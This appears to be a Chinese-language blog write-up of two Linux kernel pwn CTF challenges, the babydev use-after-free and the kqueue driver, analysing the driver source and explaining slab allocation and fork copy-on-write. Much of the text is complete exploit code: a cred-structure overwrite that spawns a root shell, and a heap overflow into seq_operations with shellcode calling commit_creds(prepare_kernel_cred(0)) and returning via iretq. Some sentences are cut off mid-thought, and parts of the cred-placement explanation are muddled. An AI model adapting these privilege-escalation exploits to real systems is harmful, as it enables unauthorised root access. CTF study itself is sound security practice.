


摘自资料
为深入理解，笔者决定还是进行一番研究。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 struct cred { atomic_t usage; #ifdef CONFIG_DEBUG_CREDENTIALS atomic_t subscribers; void *put_addr; unsigned magic; #define CRED_MAGIC 0x43736564 #define CRED_MAGIC_DEAD 0x44656144 #endif kuid_t uid; kgid_t gid; kuid_t suid; kgid_t sgid; kuid_t euid; kgid_t egid; kuid_t fsuid; kgid_t fsgid; unsigned securebits; kernel_cap_t cap_inheritable; kernel_cap_t cap_permitted; kernel_cap_t cap_effective; kernel_cap_t cap_bset; kernel_cap_t cap_ambient; #ifdef CONFIG_KEYS unsigned char jit_keyring; struct key __rcu *session_keyring ; struct key *process_keyring ; struct key *thread_keyring ; struct key *request_key_auth ; #endif #ifdef CONFIG_SECURITY void *security; #endif struct user_struct *user ; struct user_namespace *user_ns ; struct group_info *group_info ; struct rcu_head rcu ; };
同样是两次打开设备，这里使用了fork函数产生了一个子进程，利用打开的设备修改子进程的cred结构体。至于为什么这里要使用fork函数，就需要了解一下fork函数的工作原理了。
fork（）会产生一个和父进程完全相同的子进程，但子进程在此后多会exec系统调用，出于效率考虑，linux中引入了“写时复制“技术，也就是只有进程空间的各段的内容要发生变化时，才会将父进程的内容复制一份给子进程。在fork之后exec之前两个进程用的是相同的物理空间（内存区），子进程的代码段、数据段、堆栈都是指向父进程的物理空间，也就是说，两者的虚拟空间不同，但其对应的物理空间是同一个。当父子进程中有更改相应段的行为发生时，再为子进程相应的段分配物理空间，如果不是因为exec，内核会给子进程的数据段、堆栈段分配相应的物理空间（至此两者有各自的进程空间，互不影响），而代码段继续共享父进程的物理空间（两者的代码完全相同）。而如果是因为exec，由于两者执行的代码不同，子进程的代码段也会分配单独的物理空间。https://blog.csdn.net/xy010902100449/article/details/44851453
当我们fork出一个子进程时，子进程的cred结构体指针与父进程的指针值是一样的，但实际指向的物理地址已经发生了改变。如果我们事先将buf的大小改为cred结构体的大小，那么在fork出子进程时，内核就会将子进程的cred结构体分配到buf的位置，我们也就能够对其进行随意修改。不过笔者尚未找到一种快捷的计算cred、tty_operations等这类结构体的大小，只能一个类型一个类型向前找定义。若读者有更好的方法，还请不吝赐教。
exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <unistd.h> #include <fcntl.h> #include <ctype.h> #include <sys/types.h> #include <sys/ioctl.h> int main () { int f1 = open("/dev/babydev" , 2 ); int f2 = open("/dev/babydev" , 2 ); ioctl(f1, 0x10001 , 0xa8 ); close(f1); int pid = fork(); if (pid == 0 ){ char buf[28 ] = {0 }; write(f2, buf, 28 ); printf ("\033[34m\033[1m[*] The uid now is: %d.\033[0m\n" , getuid()); system("/bin/sh" ); }else if (pid < 0 ){ printf ("\033[31m\033[1m[x] Error: Failed to get root, exiting......\033[0m\n" ); }else { wait(NULL ); } return 0 ; }
注意：这里的wait(NULL)不可缺少 ，因为子进程不允许没有父进程存在，在子进程执行system时需要让父进程阻塞。如果没有这条语句，程序将会直接退出，子进程将会称为孤儿进程：
（摘自资料 ）《特殊进程之僵尸进程》 ），进程号为 1 的 init 进程将会接受这些孤儿进程，这一过程也被称为“收养”。init 进程就好像是一个孤儿院，专门负责处理孤儿进程的善后工作。每当出现一个孤儿进程的时候，内核就把孤 儿进程的父进程设置为 init ，而 init 进程会循环地 wait() 它的已经退出的子进程。这样，当一个孤儿进程凄凉地结束了其生命周期的时候，init 进程就会代表党和政府出面处理它的一切善后工作。因此孤儿进程并不会有什么危害。
父进程结束后，我们实际上就失去了对子进程的控制，这样即使子进程成功执行的system函数，我们也无法获取到root权限，因为此时父进程已经结束，我们现在直接控制的是1号进程，也就是系统进程，而系统进程中我们的权限仍然是受限的。
说到内核的堆溢出，就不能不了解内核分配堆空间内存的方式。在kernel pwn题目中，内核堆空间分配最为常用的函数就是kmalloc函数了，与用户态的malloc函数相似，其也是传入一个需要申请的大小，返回申请到的地址值，但在kmalloc的底层则是slab/slub系统和伙伴系统的协调合作。这里介绍一下最为简单的伙伴系统，slab系统择日再进行详细分析。
伙伴系统用于管理以页为最小单位的内存空间，能够在一定程度上减少内存空间中的碎片。其维护需要一组链表，每一个链表中保存大小相同的连续内存块，这些内存块的大小为一页的2次幂。且所有内存块的起始地址必须是内存块自身大小的整数倍。
当需要分配2n 个页大小的连续空间时，去链表组中检查保存2n 页大小空间的链表中是否有块存在，如果存在则分配，若没有则查找2n+1 的块是否存在，以此类推。

这道题给出了源码，我们可以首先阅读源码来分析整个驱动详细的执行流程。（登入用户名ctf、密码kqueue）
这个驱动只提供了一个接口：ioctl，有四个指令码，分别对应增删改查。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 #define CREATE_KQUEUE 0xDEADC0DE #define EDIT_KQUEUE 0xDAADEEEE #define DELETE_KQUEUE 0xBADDCAFE #define SAVE 0xB105BABE static noinline long kqueue_ioctl (struct file *file, unsigned int cmd, unsigned long arg) { long result; request_t request; mutex_lock(&operations_lock); if (copy_from_user((void *)&request, (void *)arg, sizeof (request_t ))){ err("[-] copy_from_user failed" ); goto ret; } switch (cmd){ case CREATE_KQUEUE: result = create_kqueue(request); break ; case DELETE_KQUEUE: result = delete_kqueue(request); break ; case EDIT_KQUEUE: result = edit_kqueue(request); break ; case SAVE: result = save_kqueue_entries(request); break ; default : result = INVALID; break ; } ret: mutex_unlock(&operations_lock); return result; }
首先看一下create_kquque函数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 static noinline long create_kqueue (request_t request) { long result = INVALID; if (queueCount > MAX_QUEUES) err("[-] Max queue count reached" ); if (request.max_entries<1 ) err("[-] kqueue entries should be greater than 0" ); if (request.data_size>MAX_DATA_SIZE) err("[-] kqueue data size exceed" ); queue_entry *kqueue_entry; ull space = 0 ; if (__builtin_umulll_overflow(sizeof (queue_entry),(request.max_entries+1 ),&space) == true ) err("[-] Integer overflow" ); ull queue_size = 0 ; if (__builtin_saddll_overflow(sizeof (queue ),space,&queue_size) == true ) err("[-] Integer overflow" ); if (queue_size>sizeof (queue ) + 0x10000 ) err("[-] Max kqueue alloc limit reached" ); queue *queue = validate((char *)kmalloc(queue_size,GFP_KERNEL)); queue ->data = validate((char *)kmalloc(request.data_size,GFP_KERNEL)); queue ->data_size = request.data_size; queue ->max_entries = request.max_entries; queue ->queue_size = queue_size; kqueue_entry = (queue_entry *)((uint64_t )(queue + (sizeof (queue )+1 )/8 )); queue_entry* current_entry = kqueue_entry; queue_entry* prev_entry = current_entry; uint32_t i=1 ; for (i=1 ;i<request.max_entries+1 ;i++){ if (i!=request.max_entries) prev_entry->next = NULL ; current_entry->idx = i; current_entry->data = (char *)(validate((char *)kmalloc(request.data_size,GFP_KERNEL))); current_entry += sizeof (queue_entry)/16 ; prev_entry->next = current_entry; prev_entry = prev_entry->next; } uint32_t j = 0 ; for (j=0 ;j<MAX_QUEUES;j++){ if (kqueues[j] == NULL ) break ; } if (j>MAX_QUEUES) err("[-] No kqueue slot left" ); kqueues[j] = queue ; queueCount++; result = 0 ; return result; } static noinline void * validate (void *ptr) { if (!ptr){ mutex_unlock(&operations_lock); err("[-] oops! Internal operation error" ); } return ptr; }
注意这个函数成功创建一个kqueue的标志是在全局变量kqueues中保存新创建的kqueue。其中kqueues最多可以容纳5个kqueue。资料 。__builtin_umulll_overflow函数和__builtin_saddll_overflow函数是gcc中的内置函数，其作用是运算并检查是否溢出。在gcc中有一系列这样的函数，详情请见资料 。实际上函数的功能可以通过其名字得知。如__builtin_umulll_overflow中umulll的第一个u指的是无符号整数运算，mul是乘法，后面的ll是整数类型（长整型）。类似的，__builtin_saddll_overflow指的是有符号（s）长整型（ll）加法（add）。由此可知每一次添加kqueue，其第一个kmalloc分配的大小应该为sizeof(queue) + sizeof(queue_entry) * max_entries，其中max_entries代表这个队列可容纳的最大的元素个数。结构体queue中保存队列的基本信息，结构体queue_entry保存队列中一个元素的信息，每一个元素都是一个字符串，字符串的长度由传入的请求request.data_size决定，即一个队列中保存所有字符串的内存块大小相等。__builtin_saddll_overflow函数时乘以request.max_entries+1。__builtin_saddll_overflow函数虽然会检查乘法是否有溢出，但不能检查request.max_entries+1这个加法会不会溢出。如果传入的request.max_entries=0xFFFFFFFF，加1变成0，乘法绝对不会溢出，但这个值0xFFFFFFFF会保存到queue.max_entries之中，有潜在的隐患。这个时候后面的申请entries的循环一次都不会执行，即一共只分配了0x20大小（注意结构体中元素的对齐）的空间用于存放queue而没有分配空间用于queue_entry。
delete_kqueue函数即将空间释放，内容清零。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 static noinline long delete_kqueue (request_t request) { if (request.queue_idx>MAX_QUEUES) err("[-] Invalid idx" ); queue *queue = kqueues[request.queue_idx]; if (!queue ) err("[-] Requested kqueue does not exist" ); kfree(queue ); memset (queue ,0 ,queue ->queue_size); kqueues[request.queue_idx] = NULL ; return 0 ; }
然后是edit_kqueue函数，即在第queue_idx个队列中的第entry_idx个元素中写入内容。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 static noinline long edit_kqueue (request_t request) { if (request.queue_idx > MAX_QUEUES) err("[-] Invalid kqueue idx" ); queue *queue = kqueues[request.queue_idx]; if (!queue ) err("[-] kqueue does not exist" ); if (request.entry_idx > queue ->max_entries) err("[-] Invalid kqueue entry_idx" ); queue_entry *kqueue_entry = (queue_entry *)(queue + (sizeof (queue )+1 )/8 ); exists = false ; uint32_t i=1 ; for (i=1 ;i<queue ->max_entries+1 ;i++){ if (kqueue_entry && request.data && queue ->data_size){ if (kqueue_entry->idx == request.entry_idx){ validate(memcpy (kqueue_entry->data,request.data,queue ->data_size)); exists = true ; } } kqueue_entry = kqueue_entry->next; } if (request.entry_idx==0 && kqueue_entry && request.data && queue ->data_size){ validate(memcpy (queue ->data,request.data,queue ->data_size)); return 0 ; } if (!exists) return NOT_EXISTS; return 0 ; }
这是save函数，其功能是将一个队列中的所有字符串在另外一个内存块中保存。注意这里每一个字符串拷贝的大小为request.data_size，前面对request.data_size的比较仅仅是比较其是否大于整个queue的大小。因此这里存在溢出漏洞。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 static noinline long save_kqueue_entries (request_t request) { if (request.queue_idx > MAX_QUEUES) err("[-] Invalid kqueue idx" ); if (isSaved[request.queue_idx]==true ) err("[-] Queue already saved" ); queue *queue = validate(kqueues[request.queue_idx]); if (request.max_entries < 1 || request.max_entries > queue ->max_entries) err("[-] Invalid entry count" ); char *new_queue = validate((char *)kzalloc(queue ->queue_size,GFP_KERNEL)); if (request.data_size > queue ->queue_size) err("[-] Entry size limit exceed" ); if (queue ->data && request.data_size) validate(memcpy (new_queue,queue ->data,request.data_size)); else err("[-] Internal error" ); new_queue += queue ->data_size; queue_entry *kqueue_entry = (queue_entry *)(queue + (sizeof (queue )+1 )/8 ); uint32_t i=0 ; for (i=1 ;i<request.max_entries+1 ;i++){ if (!kqueue_entry || !kqueue_entry->data) break ; if (kqueue_entry->data && request.data_size) validate(memcpy (new_queue,kqueue_entry->data,request.data_size)); else err("[-] Internal error" ); kqueue_entry = kqueue_entry->next; new_queue += queue ->data_size; } isSaved[request.queue_idx] = true ; return 0 ; }
综上，我们大概理解了这个驱动的功能，其中包含了一个整型溢出漏洞和一个缓冲区溢出漏洞。接下来介绍这个漏洞应该如何利用。
本题的漏洞利用方式需要借助一个结构体：seq_operations，大小为0x20（与queue相同），包含4个指针：
1 2 3 4 5 6 struct seq_operations { void * (*start) (struct seq_file *m, loff_t *pos); void (*stop) (struct seq_file *m, void *v); void * (*next) (struct seq_file *m, void *v, loff_t *pos); int (*show) (struct seq_file *m, void *v); }
简单介绍一下这个结构体是干什么用的。这是序列文件必备的结构体，相当于一个迭代器，能够循环输出某些内容，常用于导出数据与记录，便于管理大数据文件。当一个定义了这个结构体的LKM被打开（如使用cat命令）时，内核就会创建这样的一个数据结构，并首先调用start函数指针。由于这个结构体的大小为0x20，因此其很有可能与上面的queue分配到相距不远的地方。如果能够控制这里的start指针，就能够控制内核执行流。本题打开的序列文件为/proc/self/stat。
下面是这题的qemu启动脚本：
1 2 3 4 5 6 7 8 9 10 11 12 #!/bin/bash exec qemu-system-x86_64 \ -cpu kvm64 \ -m 512 \ -nographic \ -kernel "bzImage" \ -append "console=ttyS0 panic=-1 pti=off kaslr quiet" \ -monitor /dev/null \ -initrd "./rootfs.cpio" \ -net user \ -net nic
可见其开启了kaslr保护，但没有SMAP/SMEP和kpti，因此如果能够获取到内核地址的基址，就能够找到commit_creds和prepare_kernel_cred两个函数的地址。至于如何找到内核基址，后面介绍。
现在，我们可以着手编写程序的交互部分了，一些通用的函数如下所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 #ifndef ROOTFS_HEAP_OVERFLOW_H #define ROOTFS_HEAP_OVERFLOW_H #include <stdio.h> #include <unistd.h> #include <fcntl.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <sys/mman.h> #include <sys/ioctl.h> #include <sys/prctl.h> #define CREATE_KQUEUE 0xDEADC0DE #define EDIT_KQUEUE 0xDAADEEEE #define DELETE_KQUEUE 0xBADDCAFE #define SAVE 0xB105BABE typedef struct { uint32_t max_entries; uint16_t data_size; uint16_t entry_idx; uint16_t queue_idx; char * data; }request_t ; void save_status () ;void print_binary (char *, int ) ;void info_log (char *) ;void error_log (char *) ;void success_log (char * info) ;void getShell () ;void error_log (char * error_info) { printf ("\033[31m\033[1m[x] Fatal Error: %s\033[0m\n" , error_info); exit (1 ); } void info_log (char * info) { printf ("\033[33m\033[1m[*] Info: %s\033[0m\n" , info); } void success_log (char * info) { printf ("\033[32m\033[1m[+] Success: %s\033[0m\n" , info); } void save_status () { __asm__("mov user_cs, cs;" "mov user_ss, ss;" "mov user_sp, rsp;" "pushf;" "pop user_rflags;" ); info_log("Status has been saved." ); } void print_binary (char * buf, int length) { int index = 0 ; char output_buffer[80 ]; memset (output_buffer, '\0' , 80 ); memset (output_buffer, ' ' , 0x10 ); for (int i=0 ; i<(length % 16 == 0 ? length / 16 : length / 16 + 1 ); i++){ char temp_buffer[0x10 ]; memset (temp_buffer, '\0' , 0x10 ); sprintf (temp_buffer, "%#5x" , index); strcpy (output_buffer, temp_buffer); output_buffer[5 ] = ' ' ; output_buffer[6 ] = '|' ; output_buffer[7 ] = ' ' ; for (int j=0 ; j<16 ; j++){ if (index+j >= length) sprintf (output_buffer+8 +3 *j, " " ); else { sprintf (output_buffer+8 +3 *j, "%02x " , ((int )buf[index+j]) & 0xFF ); if (!isprint (buf[index+j])) output_buffer[58 +j] = '.' ; else output_buffer[58 +j] = buf[index+j]; } } output_buffer[55 ] = ' ' ; output_buffer[56 ] = '|' ; output_buffer[57 ] = ' ' ; printf ("%s\n" , output_buffer); memset (output_buffer+58 , '\0' , 16 ); index += 16 ; } } void getShell () { info_log("Ready to get root......" ); if (getuid()){ error_log("Failed to get root!" ); } success_log("Root got!" ); system("/bin/sh" ); } #endif
另外注意，本题中的所有检查实际上都是虚张声势，因为err函数并没有让程序强制退出，仅仅只是输出了一行错误信息就允许继续运行下去了。因此利用的思路可以尽情放开。
刚刚打开qemu时，笔者想用调试的方法查看LKM的运行过程。实际上，如果能够读取到/sys/module/kqueue/.text、/sys/module/kqueue/.data、/sys/module/kqueue/.bss的值或使用lsmod命令，就能够获取到LKM相应段的基址，但本题中权限不允许。这就比较麻烦了，需要首先将断点下在用户态程序中，然后一步一步跟踪到内核找到相应函数的调用位置。笔者尝试过通过搜索字符串等方式获取基址，但都失败了。这也是笔者认为这道题最为恶心的一个部分了。（毕竟耗了一个晚上）
不过本题还好，不是太需要用到调试，下面的调试仅为演示。
测试代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 #include "heap_overflow.h" size_t user_cs, user_ss, user_rflags, user_sp;int main () { int seq_fd[0x200 ]; save_status(); int fd = open("/dev/kqueue" , O_RDONLY); if (fd < 0 ) error_log("Cannot open /dev/kqueue!" ); request_t create_req = { .max_entries = 0xFFFFFFFF , .data_size = 0x20 * 8 }; for (int i = 0 ; i < 0x200 ; i++) seq_fd[i] = open("/proc/self/stat" , O_RDONLY); ioctl(fd, CREATE_KQUEUE, &create_req); return 0 ; }
这是进入ioctl函数中内核的执行情况，在kmalloc分配到内存后，查看周围的内存环境，发现有大量的重复内容，推测这就是前面0x200次打开stat文件申请到的seq_operations结构体。
commit_creds和prepare_kernel_cred的基址：commit_cred(prepare_kernel_cred(NULL))函数。自然地，我们可以写一个shellcode来完成这件事情。由于本题没有开启SMEP，因此我们可以直接用用户态的shellcode地址覆盖seq_operations中的地址，内核可以执行用户态的shellcode。
注意在save函数中，其申请的空间大小是queue->queue_size，我们之前传入的max_entries为0xFFFFFFFF，这使得queue->queue_size=0x20，即新申请的空间与seq_operations在相近的位置。然而其拷贝的实际长度为request.data_size，可以产生溢出。当request.max_entries=0时，拷贝的循环不会执行，而是只会执行循环前面的memcpy，将queue->data拷贝到新空间中，因此，如果我们在queue->data中写入shellcode的地址，就有覆盖一个seq_operations结构体的可能性。经过测试证明，当queue->data传入0x40的时候，溢出0x20个字节正好能够覆盖一个seq_operations结构体。
最终的exp：（头文件在上面，不变）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 #include "heap_overflow.h" size_t user_cs, user_ss, user_rflags, user_sp;size_t sh = (size_t )getShell;void shellcode () { __asm__("mov r11, [rsp + 0x8];" "sub r11, 0x201179;" "mov r12, r11;" "add r12, 0x8C580;" "add r11, 0x8C140;" "xor rdi, rdi;" "call r12;" "mov rdi, rax;" "call r11;" "swapgs;" "mov r11, user_ss;" "push r11;" "mov r11, user_sp;" "push r11;" "mov r11, user_rflags;" "push r11;" "mov r11, user_cs;" "push r11;" "mov r11, sh;" "push r11;" "iretq;" ); } int main () { int seq_fd[0x200 ]; size_t data[0x20 ]; save_status(); int fd = open("/dev/kqueue" , O_RDONLY); if (fd < 0 ) error_log("Cannot open /dev/kqueue!" ); for (int i=0 ; i<0x20 ; i++) data[i] = (size_t )shellcode; request_t create_req = { .max_entries = 0xFFFFFFFF , .data_size = 0x20 * 8 , }; ioctl(fd, CREATE_KQUEUE, &create_req); info_log("queue created." ); request_t edit_req = { .queue_idx = 0 , .entry_idx = 0 , .data = (char *)data, }; info_log("ready to edit queue, content below:" ); print_binary((char *)data, 0x100 ); ioctl(fd, EDIT_KQUEUE, &edit_req); info_log("queue edited." ); for (int i = 0 ; i < 0x200 ; i++) seq_fd[i] = open("/proc/self/stat" , O_RDONLY); info_log("0x200 stat file opened." ); request_t save_req = { .queue_idx = 0 , .max_entries = 0 , .data_size = 0x40 , }; ioctl(fd, SAVE, &save_req); info_log("queue saved." ); info_log("ready to read stat file..." ); for (int i = 0 ; i < 0x200 ; i++) read(seq_fd[i], data, 1 ); info_log("stat file reading completed." ); return 0 ; }
提权成功。（虽然不是以#开头但可以读取flag文件）